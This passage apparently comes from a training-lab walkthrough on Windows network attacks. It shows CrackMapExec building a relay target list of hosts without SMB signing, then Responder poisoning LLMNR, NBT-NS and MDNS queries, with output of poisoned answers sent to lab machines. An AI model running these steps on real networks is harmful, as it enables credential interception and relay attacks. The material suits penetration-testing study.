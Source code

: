 ```shell-session
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Right after, students will have to start `Responder.py` using `sudo` in a poisoning mode, and also specify the interface (`ens192`) using the `-I` parameter.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:2cd0]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-ZZO9ZW7YCP0]
    Responder Domain Name      [ZN1D.LOCAL]
    Responder DCE-RPC Port     [47374]

[+] Listening for events...

[!] Error starting TCP server on port 3389, check permissions or other servers running.
[*] [NBT-NS] Poisoned answer sent to 172.16.117.50 for name WORKSTATION01 (service: File Server)
[*] [MDNS] Poisoned answer sent to 172.16.117.50   for name workstation01.local
[*] [LLMNR]  Poisoned answer sent to 172.16.117.50 for name workstation01
[*] [MDNS] Poisoned answer sent to 172.16.117.50   for name workstation01.local
[*] [LLMNR]  Poisoned answer sent to 172.16.117.50 for name workstation01
[*] [MDNS] Poisoned answer sent to 172.16.117.3    for name filesharetest.local
[*] [LLMNR]  Poisoned answer sent to fe80::7994:b602:3dc:4970 for name filesharetest
[*] [MDNS] Poisoned answer sent to fe80::7994:b602:3dc:4970 for name filesharetest.local
```
